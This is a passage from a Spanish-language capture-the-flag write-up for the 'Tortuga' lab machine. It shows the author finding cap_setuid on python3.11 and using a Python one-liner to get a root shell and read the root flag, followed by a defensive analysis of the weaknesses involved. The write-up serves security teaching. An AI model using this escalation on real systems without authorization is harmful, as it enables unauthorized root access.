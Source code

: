 En el perfil del capitan no habia nada excepto un `.python_history` lo cual mas adelante usaremos para escalar a `root`.

Busqué binarios con capabilities y SUID/SGID para identificar vectores explotables:

<pre class="language-bash"><code class="lang-bash"><strong>capitan@TheHackersLabs-Tortuga:~$ getcap -r / 2>/dev/null
</strong># y búsqueda de SUIDs si procede (find / -perm -4000 ...)
</code></pre>

Salida relevante observada:

```
/usr/bin/ping cap_net_raw=ep
/usr/bin/python3.11 cap_setuid=ep
```

**Interpretación técnica:** la presencia de `cap_setuid=ep` en `/usr/bin/python3.11` indica que dicho binario puede modificar UID efectivos si es invocado por un proceso con la capacidad asociada. Esto es un vector de elevación de privilegios crítico cuando se asigna a un intérprete general como Python.

***

### 6) Explotación del vector — escalada a root

Con control local, usé Python para invocar `os.setuid(0)` y lanzar una shell con UID 0:

<pre class="language-bash"><code class="lang-bash"><strong>capitan@TheHackersLabs-Tortuga:~$ /usr/bin/python3.11 -c 'import os; os.setuid(0); os.system("/bin/bash")'
</strong></code></pre>

Comprobación inmediata:

<pre class="language-bash"><code class="lang-bash">root@TheHackersLabs-Tortuga:~# whoami
root
<strong>root@TheHackersLabs-Tortuga:~# cd /root 
</strong>root@TheHackersLabs-Tortuga:/root# cat root.txt
############################
</code></pre>

**Riesgo crítico:** otorgar capacidades que permiten cambios de UID a intérpretes capaces de ejecutar código arbitrario (Python, Perl, etc.) es una mala práctica severa. En entornos productivos puede equivaler a una ruta de RCE → root en segundos.

***

### 7) Análisis técnico extendido

#### 7.1 Vectores y ataque de superficie

* **Exposición de información sensible en contenido web:** El inclusion de nombres de usuarios o pistas en HTML reduce la seguridad por 'information leakage'. Un adversario puede prioritizar usuarios para ataques de fuerza bruta y phishing.
* **Credenciales débiles:** contraseñas como `1234` en un laboratorio ejemplifican un fallo de seguridad común; en producción, requiere políticas de contraseñas y autenticación fuerte.
* **Capabilities mal aplicadas:** conceder `cap_setuid` a un intérprete ofrece una ruta de escalada de privilegios inmediata. Las policies de capabilities deben ser restrictivas y auditadas con frecuencia.
